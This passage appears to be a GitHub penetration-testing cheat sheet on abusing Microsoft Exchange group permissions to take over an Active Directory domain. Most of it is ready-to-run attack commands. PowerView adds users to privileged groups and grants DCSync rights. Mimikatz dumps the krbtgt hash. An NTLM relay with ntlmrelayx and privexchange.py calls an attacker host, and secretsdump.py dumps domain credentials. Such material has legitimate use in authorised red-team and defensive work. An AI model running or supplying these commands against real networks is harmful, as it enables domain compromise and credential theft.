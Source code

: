 ````
### MS Exchange escalating privileges
- Attack is performed cross domain, but can be done inside the domain. Just use the current domain instead of parent domain!
![afbeelding](https://user-images.githubusercontent.com/43987245/119706037-bf8d3000-be59-11eb-84cc-6568ba6e5d26.png)

#### Enumerate if exchange groups exist
```
. ./Powerview.ps1
Get-DomainGroup *exchange*
```

#### Enumerate membership of the groups
```
Get-DomainGroupMember "Organization Management"
Get-DomainGroupMember "Exchange Trusted Subsystem"
Get-DomainGroupMember "Exchange Windows Permissions"
```

#### If we have privileges of a member of the Organization Management, we can add a user to the 'Exchange Windows Permissions' group.
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions'
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

#### Add permissions to execute DCSYNC
- When member of the ```Exchange Windows Permissions``` group
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<USER>' -Rights DCSync -Verbose
```

#### Execute DCSYNC
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

#### If we have privileges of 'exchange user', who is a member of the Exchange Trusted Subsystem, we can add any user to the DNSAdmins group:
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'DNSAdmins'
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

### NTLM Relay MS Exchange abuse
- https://pentestlab.blog/2019/09/04/microsoft-exchange-domain-escalation/
- https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/

#### The attack using domain credentials
- https://github.com/dirkjanm/privexchange/
- Attack takes a minute!
```
sudo python3 ntlmrelayx.py -t ldap://<DC FQDN> --escalate-user <USER>

python3 privexchange.py -ah <ATTACKER HOST> <EXCHANGE SERVER> -u Username -d <DOMAIN NAME>

secretsdump.py <DOMAIN>/<USER>@<DC IP> -just-dc
```

#### The attack without credentials
- using LLMNR/NBNS/mitm6 spoofing and https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py first
````
